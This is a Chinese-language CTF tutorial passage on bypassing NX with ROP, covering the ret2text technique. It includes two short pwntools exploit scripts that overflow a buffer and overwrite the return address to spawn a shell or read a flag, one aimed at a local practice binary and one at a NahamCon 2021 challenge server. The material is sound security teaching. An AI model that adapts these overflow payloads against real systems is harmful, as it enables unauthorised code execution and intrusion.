 - 随着 NX 保护的开启，以往直接向栈或者堆上直接注入代码的方式难以继续发挥效果。攻击者们也提出来相应的方法来绕过保护，目前主要的是 ROP(Return Oriented Programming)
- 在**栈缓冲区溢出的基础上，利用程序中已有的小片段 (gadgets) 来改变某些寄存器或者变量的值，从而控制程序的执行流程**
- **gadgets**: 以 `ret` 结尾的指令序列，通过这些指令序列，可修改某些地址的内容，以控制程序的执行流程

所需条件：

1. 程序存在溢出，且可以控制返回地址
2. 可以找到满足条件的gadgets以及相应gadgets的地址(若 gadgets 地址不固定，就需要想办法动态获取对应的地址)



#### ret2text

> return to .text of the executable program
>
> 栈溢出原理中所举例子属于该类别

- 控制程序执行程序本身的代码段(.text)
- 也可以控制程序执行好几段不相邻的已有代码(gadgets)
- 需要知道对应的返回的代码的位置

> 案例demo_ROP_bamboofox_ret2text见  https://github.com/hex-16/CTF-detailed-writeups/tree/main/pwn/demo_ROP_bamboofox_ret2text , 所使用的脚本：
>
> ```python
> # python3 pwntools # demo_ROP_ret2text
> from pwn import *
> sh = process('./ret2text')
> target = 0x804863a # 这个是 mov dword ptr [esp], offset command ; command: "/bin/sh" 的地址 后面一条指令是 call  _system
> payload = b'A' * (0x6c + 4) + p32(target) # 这里是前面分析的字符串 s 与 return address 之间的偏移量
> sh.sendline(payload)
> sh.interactive()
> ```
>
> 该案例总结：
>
> 1. IDA分析出危险函数(`gets`)
> 2. IDA分析出可以用于getshell的地方(`system("/bin/sh");`)，记录可以 getshell 的地址
> 3. gdb(pwndbg)分析出`gets`函数所用字符串 s 与 return address 之间的偏移量，构造payload，将用于getshell的地址覆盖到 return address
>
> 比赛案例：
>
> - NahamCon 2021 (ctf.nahamcon.com): Ret2basic: 没开canary等保护，找到打开`flag.txt`的函数，覆盖return address就行了，栈分析可以用gdb也可以用IDA(没分析错)。
>
> ```python
> # NahamCon 2021 (ctf.nahamcon.com): Ret2basic # 
> # 0x0000000000401334   call    _gets
> from pwn import *
> context.log_level = 'debug'
> sh = remote('challenge.nahamcon.com', 30413)
> # 这个是前面分析的 mov dword ptr [esp], offset command ; command: "/bin/sh" 的地址 后面一条指令是 call  _system
> target = 0x0000000000401215
> payload = b'A' * (0x70 + 8) + p64(target)  # 这里是前面分析的字符串 s 与 return address 之间的偏移量
> sh.sendline(payload)
> sh.interactive()
> ```
